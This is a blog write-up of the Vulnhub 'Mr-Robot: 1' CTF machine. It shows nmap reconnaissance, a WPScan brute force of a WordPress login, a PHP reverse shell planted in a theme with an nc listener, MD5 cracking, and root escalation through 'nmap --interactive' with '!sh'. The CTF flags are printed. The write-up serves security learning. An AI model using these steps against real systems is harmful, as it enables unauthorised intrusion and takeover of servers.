 ```yaml
---
layout: post
title: Mr. Robot Vulnhub CTF
---
```


Mr-Robot: 1 is a CTF vulnerable machine hosted on Vulnhub developed by [Jason](https://www.vulnhub.com/author/jason,292/)
The image can be downloaded [here.](https://www.vulnhub.com/#modal151download)

After firing up this machine I found the I.P. it pulled and started my investigation. I found the I.P. with an app for iOS devices called Fing but there are tons of other ways to do this.

After locating the machine I ran an Nmap scan to see which ports were open and got the following

```
$ nmap -T5 192.168.1.168

Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-30 17:42 EDT
Nmap scan report for 192.168.1.168
Host is up (0.0015s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 15.96 seconds
```


Goodie it looks like we have a webserver. After browsing to the site you will find a very nicely done webpage devoted
to Mr.Robot, or as some may know him Elliot, that you can devulge a lot of time into but thats not where we want to focus. The first thing you should do when looking at a website
is always look at the robots.txt file and see what you're not supposed to see. If you do that on this machine you are given a webpage that has two
pages, both of which we are going to visit.

First lets take a look at fsocity.dic, judging from the name this is probably a dictionary file so lets go ahead and save this file for later use(?)

```
wget 192.168.1.168/fsocity.dic
```


Note: Your I.P. will probably be different.

After that lets look at the much more promising page key-1-of-3.txt. Which believe it or not is the first of 3 keys we need to find. Browsing to that location
we get **073403c8a58a1f80d943455fb30724b9**. Now that we have our first key where do we go from here?

Next I decided to fire up DirBuster to take a look around and see what other directories there were and maybe to see if we could figure out what this site was running on.

After firing up DirBuster I was able to figure out this was a Wordpress install and that there was a login page located at /wp-login.php.
The great/horrible thing about Wordpress is that it tells you when you have a correct username and when you entered a username that does
not exist. So after trying the default user and admin (both of which do not exist) I got creative and tried MrRobot which also did not work
but I remembered that the main characters name was elliot so why not give that a go, and what do you know that is a user in the database.
At this point i fired up WPScan and attempted to brute force the user elliot with the dictionary given earlier.

```
$ ruby wpscan.rb -u 192.168.1.168 --threads 20 --wordlist ~/Documents/Projects/CTF/CTF_Events/Mr-Robot-1/fsocity.dic --username elliot
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.1
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.168/
[+] Started: Sat Jul  2 00:53:46 2016

[+] robots.txt available under: 'http://192.168.1.168/robots.txt'
[!] The WordPress 'http://192.168.1.168/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.1.168/xmlrpc.php

[+] WordPress version 4.3.5 (Released on 2016-06-21) identified from rss generator, rdf generator, atom generator, links opml

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652

  Brute Forcing 'elliot' Time: 08:28:20 <============== > (858145 / 858161) 99.99%  ETA: 00:00:01
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Sat Jul  2 09:22:07 2016
[+] Requests Done: 858195
[+] Memory used: 14.832 MB
[+] Elapsed time: 08:28:21
```


I ended with these results. I let it run over night or else you probably could have upped the threads to get this done faster.

First glance it looks like elliot is most likely an admin of this blog which is great news for us. After browsing to appearance and
themes I decided to edit the archive.php page in hopes of adding a reverse php shell.
After going to this [page](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and
grabbing the php reverse shell hosted there I opened up the nc listener like the post says too and went to the archive page.

After doing this a reverse shell opened up in my terminal

```
$ nc -v -n -l -p 1234
Connection from 192.168.1.168:42897
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC
2015 x86_64 x86_64 x86_64 GNU/Linux
 14:41:38 up  9:54,  0 users,  load average: 1.00, 1.01, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$
```


After getting this shell I decided to checkout the home folder. After arriving here I saw the key-2-of-2.txt file and got very excited! However,
after trying to cat it I realized I did not have permission to read it. I did notice there was a md5 password file for user robot (whos
home directory we were in). After catting this file I decided to go to [MD5cracker](http://www.md5cracker.org) and have them crack it. Luckily this
only took seconds and I got the password of

```
abcdefghijklmnopqrstuvwxyz
```
So at this point I tried to su robot and kept getting a not in terminal error. I figured this had something to do with TTY so I did a quick
google search that led me to another article on pentestmonkey with a python command to open up a terminal. Below is going to be the log of
everything I did to get key to after gaining access to the machine besides the cracking of the md5 hash since that was not done in the terminal


```
$ nc -lvnp 1234
Connection from 192.168.1.168:42903
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
14:57:45 up 10:10,  0 users,  load average: 1.10, 1.06, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ cd /home/robot
cd /home/robot
robot@linux:~$ ls
ls
key-2-of-3.txtpassword.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
```


After searching around the box a bit and looking at the SUID binaries I remembered an old flaw with Nmap that allowed a user to execute commands as
root in interactive mode. After launching the interactive mode you can enter !sh to gain a shell. At this point I navigated to the root directory
catted the key-3-of-3.txt file and got the final key. Below will be a log of everything I did after getting the second key.

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root/
cd /root/
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
#
```


That just about wraps up this Vulnhub image. Hopefully everyone enjoys my first writeup for Vulnhub. I am still fairly new at CTFs and boot2root
machines but I plan on doing a lot more of these and to continue writing writeups! If anyone has any suggestions on
what they would like done differently for these writeups please let me know. Thanks everyone for reading and if your interested in some security
content check out my twitter or the rest of my blog.
